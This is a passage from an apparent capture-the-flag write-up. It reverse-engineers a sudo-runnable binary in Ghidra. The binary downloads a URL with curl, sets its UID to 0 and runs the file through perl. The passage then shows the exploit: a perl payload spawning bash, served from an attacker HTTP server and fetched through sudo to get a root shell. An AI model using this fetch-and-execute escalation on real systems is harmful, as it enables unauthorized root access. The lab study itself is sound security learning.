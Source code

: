 For the next option, Ghidra says the value is 10001, so I assume it is actually 1, *CURLOPT_WRITEDATA*. This option accepts the file descriptor of the file where the curl output should be written. In this case, it's the second param.

For the third option, Ghidra finally gives a sensible value, 45. This is setting *CURLOPT_FAILONERROR* to true, telling curl to not output any data if it receives an HTTP response that indicates an error.

To sum it up, the binary will use curl to get an URL given by the first argument and save the output to a file with the name given by the second argument.

Now the code checks if curl call was successful, and it gets interesting:
```c
if (iVar2 == 0) {
    iVar2 = snprintf((char *)0x0,0,"%s",*(undefined8 *)(param_2 + 0x10));
    __s = (char *)malloc((long)iVar2 + 1);
    snprintf(__s,(long)iVar2 + 1,"%s",*(undefined8 *)(param_2 + 0x10));
    iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);
    __s_00 = (char *)malloc((long)iVar2 + 1);
    snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s);
    fclose(__stream);
    curl_easy_cleanup(uVar3);
    setuid(0);
    system(__s_00);
    system("rm -f ./lDnxUysaQn");
    return 0;
    }
```
The first line is just a complicated way of getting the length of second parameter. You can see the documentation of [snprintf](https://cplusplus.com/reference/cstdio/snprintf/) to see why, but basically, if the second argument to *snprintf* is zero, the function returns the length of the string without the null terminating character. The code then allocates a buffer called *__s* with the size of the length of the second parametr and again uses *snprintf* to copy the second parameter to that buffer.

It then goes through the same process, this time creating a buffer *__s__00* and prepends 'perl ./' to it. The value of the second argument is fixed, so I know both of these values:

- __s = 'lDnxUysaQn'
- __s__00 = 'perl ./lDnxUysaQn'

Then the code does some cleanup, and finally, it sets its UID to 0 and calls `system` with the *__s__00* argument. 

Knowing all this, the exploit is very simple. I am just going to create a file with perl system() function to execute bash and start a Python webserver:
```
❯ echo 'system("bash");' > pwned
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now I just call the binary pointing it to my server and get root:
```
$ sudo /usr/bin/binary 'http://10.10.14.198:8000/pwned' lDnxUysaQn 
Running... 
root@investigation:/home/smorton# id
uid=0(root) gid=0(root) groups=0(root)
```